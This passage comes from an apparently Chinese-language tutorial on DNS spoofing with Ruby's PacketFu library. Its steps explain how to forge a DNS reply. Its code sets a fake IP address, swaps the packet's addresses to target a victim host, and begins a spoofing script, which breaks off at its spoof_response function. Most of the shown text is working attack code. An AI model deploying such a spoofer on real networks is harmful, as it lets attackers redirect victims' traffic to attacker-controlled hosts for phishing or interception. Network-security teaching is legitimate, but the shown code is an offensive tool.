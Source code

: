 +   然后我们使用 `@ourInfo` 中包含的数据（IP 和 MAC）创建一个新的 UDP 数据包，并填写正常的 UDP 字段。

    +   我大部分信息直接来自 DNS 查询数据包。

+   下一步是创建 DNS 响应。

    +   最好的理解此处代码的方式是查看 DNS 标头，然后

    +   取十六进制值的位图并将其应用于标头。

    +   这将让你看到设置了哪些标志位。

+   从这里，我们只需为 UDP 数据包计算校验和，然后发送到目标机器。

| ![Wireshark](dns_spoofing_wireshark2.png) |
| --- |
| **图 2.** DNS 响应有效载荷 |

```
 spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61" 
```

封装

```
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu

def readable(raw_domain)

  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)
```